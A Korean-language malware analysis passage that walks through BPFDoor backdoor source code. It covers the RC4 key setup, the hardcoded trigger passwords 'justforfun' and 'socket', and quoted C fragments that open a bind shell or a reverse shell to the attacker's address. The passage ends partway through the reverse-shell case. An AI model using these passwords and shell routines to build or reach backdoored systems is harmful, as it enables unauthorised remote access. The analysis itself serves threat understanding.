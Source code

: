     - BPFDoor는 이후에 공격자와의 통신에서 사용되는 RC4 대칭키 암호화 알고리즘의 key를 초기화하는 과정이다. `magic_packet` 구조체의 멤버 중 `char pass[14]`로 선언되어 있는 변수를 통해 key를 관리한다.

    ```c
    typedef struct {
        uchar   state[256];
        uchar   x, y;
    } rc4_ctx;
    ```

    - `rc4_ctx` 라는 구조체를 정의하여 암호화할 때 사용하는 key인 `crypt_ctx`와 복호화할 때 사용하는 key인 `decrypt_ctx`를 초기화한다.

6. **비밀번호 비교 및 실행**

    ```c
    cmp = logon(mp->pass);
    ```

    - `logon()` 함수를 호출하여 `magic_packet`의 비밀번호인 `mp->pass`의 값에 따라 다른 기능을 수행하도록 한다.

    - `logon()` 함수 내에서는 비밀번호 값이 `cfg.pass` 값인 `justforfun`일 경우에는 `0`을 리턴하고, `cfg.pass2` 값인 `socket`일 경우에는 `1`을 리턴, 둘 다 아닐 경우에는 `2`를 리턴한다.

    ```c
    switch(cmp) {
    		case 1:
    			...
    		case 0:
    			...
    		case 2:
    			...
    }
    exit(0);
    ```

    - 앞에서 받은 리턴 값에 따라 switch-case 문으로 기능을 수행하고 종료(`exit(0)`)한다.
    - 내부에서 호출되는 핵심 함수 `getshell`, `try_link`, `shell`, `mon` 함수 분석은 다음 토글에 설명한다.

    1. `case 1:` - 비밀번호: `socket`
        - IPTables 규칙을 설정하고, Bind Shell을 제공하는 것이 목적이다.

        ```c
        strcpy(sip, inet_ntoa(ip->ip_src));
        getshell(sip, ntohs(tcp->th_dport));
        break;
        ```

        - `inet_ntoa()` 함수를 통해 패킷의 출발지 IP 주소, 즉 패킷을 전송한 공격자의 IP 주소를 Dotted-Decimal Notation(사람이 읽을 수 있는 형태의 IP 주소 e.g. 192.168.1.102)으로 바꾸어 char 배열 `sip` 변수에 저장한다.
        - 앞에서 구한 `sip` 변수와 TCP 헤더에 포함되어 있던 목적지 port 값을 big-endian 에서 little-endian으로 변환한 값을 인자로 하여 `getshell` 함수를 실행한다.

    2. `case 0:` - 비밀번호: `justforfun`
        - 공격자에게 Reverse Shell을 제공하는 것이 목적이다.

        ```c
        scli = try_link(bip, mp->port);
        if (scli > 0)
            shell(scli, NULL, NULL);
        break;
        ```
